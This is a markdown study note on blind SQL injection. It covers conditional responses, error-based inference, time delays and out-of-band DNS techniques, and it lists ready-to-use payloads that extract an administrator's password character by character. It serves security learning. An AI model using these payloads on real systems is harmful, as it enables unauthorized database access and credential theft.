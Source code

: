 ## SQLi Blind Injection
Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

_NB:_ Many techniques such as UNION attacks are not effective with blind SQL injection vulnerabilities because they rely on being able to see the results of the injected query within the application response. 

### Blind SQLi Techniques
1. Triggering Conditional responses

- `' AND '1'='1`: This causes the query at the injected point to return results because the condition is true
- `' AND '1'='2`: This doesn't return any result because the injected condition is false

This allows to determine the answer to any single injected condition, and extract data one piece at a time.

_Example Payloads_

`injectionPoint' AND (SELECT 'a' FROM users LIMIT 1)='a` - This determines if there is a table called users 

i.e let's assume the applications response for when a condition is true is `success` then above payload returns success if table - users exist

`injectionPoint' AND (SELECT 'a' FROM users WHERE username='administrator')='a` - This determines if there is a user name administrator exists

`injectionPoint' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>[value])='a` - This is used to determine the length of a certain user's password after verifying they exist

`injectionPoint' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` - This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value (a in this case)

_NB:_ depending on the password length determined, the `1` variable after the first comma keeps varying while varying the payload value (easily done with burp intruder and GREP filter to catch the needed app response) as well until the full password is determined.

2. Triggering conditional errors

Error-based SQL injection allows the use of error messages to either extract or infer sensitive data from the database. 

It is able to induce the application to return a specific error response based on the result of a boolean expression, this can be exploited the same way as conditional responses.

- `injectionPoint' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)`: With the `CASE` expression, this evaluates to 'a' which doesn't cause any error

- `injectionPoint' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)`: This evaluates to `1/0` which causes a divide by zero error. 

- `injectionPoint' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END FROM users WHERE username='administrator')`: Checks if a username with administrator exists

If the error causes a difference in the application's HTTP response, this can be used to determine whether the injected condition is true (i.e replacing `1=1` to test with the intended query we're trying to get).

_NB:_ Different technique for triggering errors works for different database types(lookup ![cheatsheets](https://portswigger.net/web-security/sql-injection/cheat-sheet)).

_The above applies to Microsoft DBs ('a' can also be replaced with NULL)_

3. Triggering time delays

SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows to determine the truth of the injected condition based on the time taken to receive the HTTP response.

The techniques for triggering a time delay are specific to the database type in use.

_Example_

On a Microsoft SQL server;

- `'; IF (1=2) WAITFOR DELAY '0:0:10'--`: This does not trigger a time delay because the condition `1=2` is false.

- `'; IF (1=1) WAITFOR DELAY '0:0:10'--`: This triggers a time delay of 10 seconds because the condition `1=1` is true

Using this technique, data can retrieved by testing one character at a time

i.e `'; IF (SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password,1,1) > 'm') = 1 WAITFOR DELAY '0:0:10'--` (using URL decode ';' is '%3B')

4. Triggering Out-of-band (OAST) Interactions

This technique is used by triggering out-of-band network interactions to a system that we control.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

_NB:_ As with other techniques, the methods for triggering a DNS query is specific to the type of database being used(lookup cheatsheets). It can also be used to perform data exfiltration from the application with help of **Burp collaborator**

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.